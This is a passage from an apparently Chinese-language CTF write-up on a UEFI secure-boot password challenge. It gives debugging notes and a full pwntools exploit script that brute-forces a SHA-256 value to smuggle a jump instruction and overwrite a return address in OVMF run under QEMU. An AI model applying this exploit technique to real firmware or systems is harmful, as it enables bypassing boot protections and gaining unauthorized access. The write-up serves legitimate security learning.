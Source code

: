 0xFF6E 对应的下断点地址空间是：0x67DAF6E。

假如我们的输入是：`'1'*128+'23456789abcd'`，调试之后会发现栈中的内容是这样的：

![](https://raw.githubusercontent.com/40m41h42t/Images/master/2019/07/secboot-6.png)

很明显 `23456789` 的部分被截断了。

最后，完整的 payload 构造如下：

```python
from pwn import *
import hashlib
import binascii
import os
import tempfile

target = 0x67db07b

context(os='linux',arch='amd64') #,log_level='debug')

def find_sha(myasm):
    for i in xrange(1000000):
        payload = str(i)
        payload = payload.ljust(128, 'a')
        payload += '\x00' * 8
        payload += p32(target)
        if binascii.unhexlify(hashlib.sha256(payload).hexdigest())[0:len(myasm)] == myasm:
            print('[1] payload: ', payload)
            print(hashlib.sha256(payload).hexdigest())
            payload = str(i)
            payload = payload.ljust(136, 'a')
            payload += p32(target)
            print('[2] payload: ', payload)
            print(hashlib.sha256(payload).hexdigest())
            return payload

def exploit(p):
    p.sendafter('2J',"\x1b\x5b\x32\x34\x7e"*10)
    payload = find_sha(asm("jmp $-0x17"))
    payload += "\r"
    
    p.sendafter("Password?", payload)
    p.interactive()

def local():
    fname = tempfile.NamedTemporaryFile().name
    os.system("cp OVMF.fd %s" % (fname))
    os.system("chmod u+w %s" % (fname))

    # os.system("qemu-system-x86_64 -s -monitor /dev/null -m 128M -drive if=pflash,format=raw,file=%s -drive file=fat:rw:contents,format=raw -net none -nographic 2> /dev/null" % (fname))
    p = process(['qemu-system-x86_64','-s','-m','128M','-drive','if=pflash,format=raw,file='+fname,'-drive','file=fat:rw:contents,format=raw','-net','none','-nographic'], env={})
    exploit(p)
    os.system("rm -rf %s" % (fname))

if __name__ == "__main__":
    # p = remote("secureboot.ctfcompetition.com", 1337)
    local()
```
